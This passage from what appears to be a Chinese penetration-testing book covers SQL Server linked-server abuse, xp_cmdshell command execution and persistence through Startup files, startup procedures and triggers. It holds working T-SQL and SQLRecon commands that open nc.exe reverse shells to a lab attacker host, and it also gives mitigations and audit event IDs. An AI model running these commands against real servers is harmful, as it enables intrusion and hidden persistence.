理想的攻击场景是识别链接服务器，检查用户帐户权限，验证`RPC Out`值，并启用`xp_cmdshell`以获得命令执行权限。`RPC Out`允许在指定的链接服务器上运行存储过程，并且只能通过`sysadmin`权限启用，使用`sp_serveroption`过程。如果`RPC Out`被禁用，即使拥有`sysadmin`权限，也无法在链接服务器上启用`xp_cmdshell`。原因是，通过`openquery()`运行的查询不需要执行`RECONFIGURE`。

PowerUpSQL 有两个功能（`Get-SQLServerLink`和**Get-SQLServerLinkCrawl**）可以帮助识别链接。Metasploit 有自己的模块，叫做`exploit/windows/mssql/mssql_linkcrawler`，可以完全自动化地部署有效载荷。攻击步骤如下：找到链接服务器，枚举它，了解登录上下文，然后提升权限和/或进行横向移动。

我们将在本节中使用 SQLRecon。我以`jon.snow`身份登录，使用以下命令执行上述所有操作：

```
SQLRecon.exe /a:WinToken /h:castelblack /m:whoami
SQLRecon.exe /a:WinToken /h:castelblack /m:links
SQLRecon.exe /a:WinToken /h:castelblack /l:braavos /m:lwhoami
SQLRecon.exe /a:WinToken /h:castelblack /l:braavos /m:lcheckrpc
SQLRecon.exe /a:WinToken /h:castelblack /l:braavos /m:lenablexp
SQLRecon.exe /a:WinToken /h:castelblack /l:braavos /m:lxpcmd /c:"C:\Users\Public\nc.exe -e cmd 192.168.56.100 443"
```

以下是执行在链接服务器上的命令输出：


图 9.19 – 链接服务器枚举

成功的命令执行为我们提供了目标的交互式 Shell：


图 9.20 – 链接服务器上的交互式反向 Shell

在本节的开始，我们提到过硬编码凭据。如果 SQL Server 凭据用于创建链接，这些凭据会以加密格式存储，因此可以以明文形式提取[27]。成功提取要求在 **专用管理连接**（**DAC**）上的所有数据库实例中拥有 `sysadmin` 权限，并且在服务器本地具有管理员权限，以访问注册表中的熵字节。这些字节用于加强加密并存储在注册表中。该脚本还会从几个表中提取数据。如果一切顺利，你将提取到明文密码。

另一个有趣的使用场景是通过 OpenQuery 进行 LDAP 枚举[28]。在开始之前，我们需要一组有效的域凭据。可以通过破解 NTLMv2 挑战，进行 UNC 路径注入攻击后获得，或者简单地利用 SQL 服务的域帐户。基本思想是建立一个 **Active Directory 服务接口**（**ADSI**）链接服务器，并通过 OpenQuery 执行 LDAP 查询：

```
EXEC master.dbo.sp_addlinkedserver @server = N'ENUM',
@srvproduct=N'Active Directory Service Interfaces',
@provider=N'ADSDSOObject', @datasrc=N'adsdatasource';
EXEC master.dbo.sp_addlinkedsrvlogin @rmtsrvname = N'ENUM',
@locallogin = NULL , @useself = N'True';
(SELECT * FROM OPENQUERY(DEMO, 'SELECT sAMAccountName,
userAccountControl FROM ''LDAP://north.sevenkingdoms.local/DC=north,DC=sevenkingdoms,DC=local''
WHERE objectCategory = ''Person'' AND objectClass = ''user'''))
```

结果如以下截图所示：


图 9.21 – 通过 OpenQuery 进行域用户枚举

为了防止链接滥用，移除未使用的链接，并检查链式链接。确保链接没有配置 `sysadmin` 或过于宽松的权限。考虑禁用 `RPC Out`。

以下部分将展示如何通过使用 SQL Server 的合法功能，在 SQL Server 和操作系统层面实现持久性。

# 持久性

既然我们已经了解了域和域控制器级别的持久性，为什么还要关心 SQL Server 呢？大多数侦测控制措施是在操作系统层面实现的，而数据库审计则不太常见且不够彻底。SQL Server 服务帐户可能在操作系统上拥有广泛的权限，这为攻击者提供了一个绝佳的藏身之处，因为所有可疑的操作都会被记录为由服务帐户执行的。最后，即使在繁忙的数据库上启用了审计和监控，也很难将合法活动与恶意活动区分开。我们将从通过自动运行在操作系统层面实现持久性的最吵杂且不安全的方式开始，然后逐步过渡到 SQL Server 层面，使用启动程序和触发器。

## 文件和注册表自动运行

这两种方法在操作安全性上非常不安全，因为 `Startup` 文件夹和注册表项通常会被安全解决方案（如 Sysmon 和 EDR）监控。在这些位置写入文件，使用 SQL Server 服务帐户，可能会被视为合法行为。再说一次，强烈不推荐这么做。

我们将从写入文件到 `Startup` 文件夹开始。如果 SQL Server 服务帐户在主机上配置了广泛的权限，便可以将文件放入具有高权限用户的文件夹，甚至是所有用户的文件夹。必须提前启用 OLE 自动化过程。以下代码将在 `sql_svc` 的 `Startup` 文件夹中创建一个批处理文件，该文件将与我们的机器建立连接：

```
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\rev.bat', 2, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, 'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

在 `sql_svc` 的下次登录时，我们会收到连接，如下图所示：


图 9.22 – 来自启动文件夹中文件的反向 shell

SQL Server 还允许你通过存储过程与注册表交互——`xp_regwrite`、`xp_regread` 和 `xp_regdeletekey`。执行这些存储过程需要`sysadmin`权限。然而，在操作系统层面，这还不够——例如，写入 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run hive` 需要本地管理员权限。PowerUpSQL 有三个使用注册表来实现持久化的功能：

+   `Get-SQLPersistRegDebugger` – 为辅助功能选项设置自定义调试器

+   `Get-SQLPersistRegRun` – 在自动运行键中写入有效载荷

+   `Get-SQLRecoverPwAutoLogon` – 读取自动登录密码

现在，让我们来看看一些在数据库级别持久化的更加安全的 OpSec 选项。

## 启动存储过程

如你从这种类型的过程名称中可以猜到的，它会在 SQL Server 启动或重启时运行。所有此类过程都在 `sa` 登录下运行，必须由 `sa` 拥有，并且必须位于 master 数据库中。为了标记一个过程为自动执行，`sysadmin` 权限是必需的，但不一定是 `sa`。过程不能接受任何输入/输出参数。以下代码创建了我们的恶意过程（**sp_rev_shell**），标记其为自动执行，并列出自动执行的存储过程：

```
USE master
CREATE PROCEDURE sp_rev_shell
AS
EXEC master..xp_cmdshell 'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
EXEC sp_procoption @ProcName = 'sp_rev_shell', @OptionName = 'startup', @OptionValue = 'on';
SELECT * FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY(id, 'ExecIsStartUp') = 1;
```

SQL Server 服务重启后，反向 shell 被执行：


图 9.23 – 通过启动存储过程实现持久化

还有一个 PowerShell 脚本，自动化这些操作[30]。它包含三种持久化场景——创建一个新的 SQL Server `sysadmin` 登录，创建一个 Windows 本地管理员帐户，以及运行 PowerShell 命令：

```
Invoke-SqlServer-Persist-StartupSp -SqlServerInstance BRAAVOS\SQLEXPRESS -NewSqlUser evil -NewSqlPass evil123! -Verbose
```

脚本执行结果如下所示：


图 9.24 – 完全自动化的 sysadmin 用户创建

这种方法的主要缺点是我们必须等待 SQL Server 的维护。NetSPI 的博客文章[29]展示了如何启用服务器级别和数据库级别的审计功能。它们可以检测使用`sp_procoption`过程（事件 ID **33205**）、启动恶意启动过程（事件 ID **17135**）以及使用 `sysadmin` 权限的 SQL Server 新登录（事件 ID **33205**）。最后，如果攻击者决定更改或删除审计设置，事件 ID `33205` 将会生成。

## 恶意触发器

什么是触发器？根据 Microsoft 的定义，“*触发器是一种特殊类型的存储过程，当数据库服务器中发生某个事件时，它会自动运行*”[31]。触发器有三种类型，依据执行条件的不同而有所区别：

+   **数据定义语言**（**DDL**）– `CREATE`、`ALTER` 和 `DROP` 语句

+   **数据操作语言**（**DML**）– `INSERT`、`UPDATE` 和 `DELETE` 语句

+   **登录触发器** – 一个登录事件

DDL 触发器适用于服务器和数据库级别。有很多 DDL 事件和事件组[32]可以用来创建触发器。在繁忙的环境中，有些事件可能每隔几分钟就会发生，因此需要谨慎选择。触发器的创建就像下面的代码一样简单：

```
CREATE TRIGGER [ddl_persist]
ON DATABASE
FOR DROP_TABLE
AS
EXEC master..xp_cmdshell 'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
```

DML 触发器仅在数据库级别工作。我们将选择一个语句和表。一个重要的警告是，与目标表一起工作的用户可能没有足够的权限执行诸如运行 `xp_cmdshell` 之类的操作。NetSPI 在其博客[33]中建议，应该为所有用户授予 `sa` 模拟权限，或者使用代理账户执行 `xp_cmdshell`。以下代码将创建一个 DML 触发器：

```
CREATE TRIGGER [dml_persist]
ON new.dbo.player
FOR INSERT, UPDATE, DELETE
AS
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
```

登录触发器用于根据特定条件防止用户登录。攻击者可以创建一个低权限的假账户，并在需要保持持久性时使用它，而不是使用真实的用户登录。这样的触发器代码不言自明：

```
CREATE LOGIN [fake] WITH PASSWORD = 'fake123!'
CREATE TRIGGER [logon_persist]
ON ALL SERVER WITH EXECUTE AS 'sa'
FOR LOGON
AS
BEGIN
IF ORIGINAL_LOGIN() = 'fake'
    EXEC master..xp_cmdshell 'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
END
```

尝试使用假账户登录会触发连接，但也会在日志中留下一个错误，事件 ID 为`17892`。启用审计功能后，触发器创建代码将在事件 ID `33205` 中完全记录。

# 摘要

总结来说，有很多原因让对手选择 SQL Server 作为一个有价值的目标。我们通过实践演示了如何对数据库服务器进行枚举。我们深入探讨了各种权限提升技巧，不仅仅局限于数据库级别。通过从一个低权限的公共账户逐步迁移到`SYSTEM`，我们涵盖了攻击者的“杀链”。接着，演示了多种操作系统命令执行技巧，以帮助我们理解应用程序与宿主操作系统的集成程度。此外，我们还看到，如果数据库链接配置不当，攻击者可能会利用这些链接进行横向移动。最后，我们讨论了操作系统和数据库层面的持久化技术。对可用数据库功能的深入理解，可能会使一方相对于另一方占据优势。

# 进一步阅读

以下是一些进一步学习的资料，帮助你更深入理解本章中涉及的攻击：

1.  SQL Server 网络端口: [`www.mssqltips.com/sqlservertip/7212/sql-server-port-explanation-usage/`](https://www.mssqltips.com/sqlservertip/7212/sql-server-port-explanation-usage/)

1.  SQL Server 2022 新的固定服务器级角色: [`learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/server-level-roles?view=sql-server-ver16`](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/server-level-roles?view=sql-server-ver16)

1.  SQL Server 2022 之前的固定服务器级角色: [`www.mssqltips.com/sqlservertip/1887/understanding-sql-server-fixed-server-roles/`](https://www.mssqltips.com/sqlservertip/1887/understanding-sql-server-fixed-server-roles/)

1.  SQLRecon 工具: [`github.com/skahwah/SQLRecon`](https://github.com/skahwah/SQLRecon)

1.  PowerUpSQL 工具: [`github.com/NetSPI/PowerUpSQL`](https://github.com/NetSPI/PowerUpSQL)

1.  PowerUpSQL 备忘单: [`github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet`](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)

1.  HeidiSQL 工具: https://www.heidisql.com/

1.  MS SQL Server 枚举: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#common-enumeration

1.  MS SQL Server 枚举 2: https://ppn.snovvcrash.rocks/pentest/infrastructure/dbms/mssql#enumeration

1.  用户伪装: https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation/

1.  攻击（不）可信的数据库: https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/

1.  从`db_owner`脚本提升权限: https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-Dbowner.psm1

1.  MS SQL Coerce: https://github.com/p0dalirius/MSSQL-Analysis-Coerce

1.  JuicyPotato: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato

1.  RoguePotato, PrintSpoofer, SharpEfsPotato 和 GodPotato: [`book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer`](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer)

1.  从本地管理员获取 SQL Server `sysadmin` 权限: [`www.netspi.com/blog/technical/network-penetration-testing/get-sql-server-sysadmin-privileges-local-admin-powerupsql/`](https://www.netspi.com/blog/technical/network-penetration-testing/get-sql-server-sysadmin-privileges-local-admin-powerupsql/)

1.  从 `master.mdf` 文件中提取 SQL Server 哈希值: [`xpnsec.tumblr.com/post/145350063196/reading-mdf-hashes-with-powershell`](https://xpnsec.tumblr.com/post/145350063196/reading-mdf-hashes-with-powershell)

1.  `Invoke-MDFHashes`: [`github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes`](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

1.  自定义扩展存储过程 DLL 模板: [`raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp`](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp)

1.  SQL Server CLR 程序集: [`www.netspi.com/blog/technical/adversary-simulation/attacking-sql-server-clr-assemblies/`](https://www.netspi.com/blog/technical/adversary-simulation/attacking-sql-server-clr-assemblies/)

1.  CLR 严格安全性: [`learn.microsoft.com/en-us/sql/database-engine/configure-windows/clr-strict-security?view=sql-server-ver16`](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/clr-strict-security?view=sql-server-ver16)

1.  SeeCLRly 工具: [`github.com/sekirkity/SeeCLRly`](https://github.com/sekirkity/SeeCLRly)

1.  利用 OLE 自动化: [`www.imperva.com/blog/how-to-exploit-sql-server-using-ole-automation/`](https://www.imperva.com/blog/how-to-exploit-sql-server-using-ole-automation/)

1.  代理作业命令执行: [`www.optiv.com/explore-optiv-insights/blog/mssql-agent-jobs-command-execution`](https://www.optiv.com/explore-optiv-insights/blog/mssql-agent-jobs-command-execution)

1.  外部脚本执行: [`cheats.philkeeble.com/active-directory/mssql#external-scripts`](https://cheats.philkeeble.com/active-directory/mssql#external-scripts)

1.  *Beyond xp_cmdshell* 由 *nullbind* 提供: [`www.slideshare.net/nullbind/beyond-xpcmdshell-owning-the-empire-through-sql-server`](https://www.slideshare.net/nullbind/beyond-xpcmdshell-owning-the-empire-through-sql-server)

1.  解密链接服务器密码: [`www.netspi.com/blog/technical/adversary-simulation/decrypting-mssql-database-link-server-passwords/`](https://www.netspi.com/blog/technical/adversary-simulation/decrypting-mssql-database-link-server-passwords/)

1.  通过 OpenQuery 进行 LDAP 枚举: [`keramas.github.io/2020/03/28/mssql-ad-enumeration2.xhtml`](https://keramas.github.io/2020/03/28/mssql-ad-enumeration2.xhtml)

1.  通过启动存储过程保持持久性: [`www.netspi.com/blog/technical/network-penetration-testing/sql-server-persistence-part-1-startup-stored-procedures/`](https://www.netspi.com/blog/technical/network-penetration-testing/sql-server-persistence-part-1-startup-stored-procedures/)

1.  `Invoke-SqlServer-Persist-StartupSp` 脚本: [`github.com/NetSPI/PowerUpSQL/blob/master/scripts/pending/Invoke-SqlServer-Persist-StartupSp.psm1`](https://github.com/NetSPI/PowerUpSQL/blob/master/scripts/pending/Invoke-SqlServer-Persist-StartupSp.psm1)

1.  触发器: [`learn.microsoft.com/en-us/sql/t-sql/statements/create-trigger-transact-sql?view=sql-server-ver16`](https://learn.microsoft.com/en-us/sql/t-sql/statements/create-trigger-transact-sql?view=sql-server-ver16)

1.  DDL 事件组: [`learn.microsoft.com/en-us/sql/relational-databases/triggers/ddl-event-groups?view=sql-server-ver16`](https://learn.microsoft.com/en-us/sql/relational-databases/triggers/ddl-event-groups?view=sql-server-ver16)

1.  通过触发器保持持久性: [`www.netspi.com/blog/technical/network-penetration-testing/maintaining-persistence-via-sql-server-part-2-triggers/`](https://www.netspi.com/blog/technical/network-penetration-testing/maintaining-persistence-via-sql-server-part-2-triggers/)
